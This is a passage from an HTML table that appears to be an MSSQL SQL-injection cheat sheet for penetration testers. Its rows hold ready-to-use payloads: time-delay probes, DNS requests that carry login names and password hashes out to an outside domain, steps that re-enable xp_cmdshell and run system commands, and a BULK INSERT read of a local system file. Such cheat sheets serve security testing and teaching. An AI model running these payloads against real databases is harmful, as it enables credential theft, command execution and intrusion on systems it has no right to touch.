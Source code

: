       <td style="text-align:left">SELECT &apos;A&apos; + &apos;B&apos; - returns AB</td>
    </tr>
    <tr>
      <td style="text-align:left">If Statement</td>
      <td style="text-align:left">IF (1=1) SELECT 1 ELSE SELECT 2 -- returns 1</td>
    </tr>
    <tr>
      <td style="text-align:left">Case Statement</td>
      <td style="text-align:left">SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END -- returns 1</td>
    </tr>
    <tr>
      <td style="text-align:left">Avoiding Quotes</td>
      <td style="text-align:left">SELECT char(65)+char(66) -- returns AB</td>
    </tr>
    <tr>
      <td style="text-align:left">Time Delay</td>
      <td style="text-align:left">WAITFOR DELAY &apos;0:0:5&apos; -- pause for 5 seconds</td>
    </tr>
    <tr>
      <td style="text-align:left">Make DNS Requests</td>
      <td style="text-align:left">
        <p>declare @host varchar(800); select @host = name FROM master..syslogins;
          exec(&apos;master..xp_getfiledetails &apos;&apos;\\&apos; + @host + &apos;\c$\boot.ini&apos;&apos;&apos;);
          -- nonpriv, works on 2000</p>
        <p>declare @host varchar(800); select @host = name + &apos;-&apos; + master.sys.fn_varbintohexstr(password_hash)
          + &apos;.2.pentestmonkey.net&apos; from sys.sql_logins; exec(&apos;xp_fileexist
          &apos;&apos;\\&apos; + @host + &apos;\c$\boot.ini&apos;&apos;&apos;); --
          priv, works on 2005</p>
        <p>-- NB: Concatenation is not allowed in calls to these SPs, hence why we
          have to use @host. Messy but necessary.</p>
        <p>-- Also check out theDNS tunnel feature of&#x202F;<a href="http://sqlninja.sourceforge.net/sqlninja-howto.html">sqlninja</a> 
        </p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Command Execution</td>
      <td style="text-align:left">
        <p>EXEC xp_cmdshell &apos;net user&apos;; -- priv</p>
        <p>On MSSQL 2005 you may need to reactivate xp_cmdshell first as it&apos;s
          disabled by default:</p>
        <p>EXEC sp_configure &apos;show advanced options&apos;, 1; -- priv</p>
        <p>RECONFIGURE; -- priv</p>
        <p>EXEC sp_configure &apos;xp_cmdshell&apos;, 1; -- priv</p>
        <p>RECONFIGURE; -- priv</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Local File Access</td>
      <td style="text-align:left">
        <p>CREATE TABLE mydata (line varchar(8000));</p>
        <p>BULK INSERT mydata FROM &apos;c:\boot.ini&apos;;</p>
        <p>DROP TABLE mydata;</p>
      </td>
    </tr>
    <tr>
      <td style="text-align:left">Hostname, IP Address</td>
      <td style="text-align:left">SELECT HOST_NAME()</td>
    </tr>
    <tr>
      <td style="text-align:left">Create Users</td>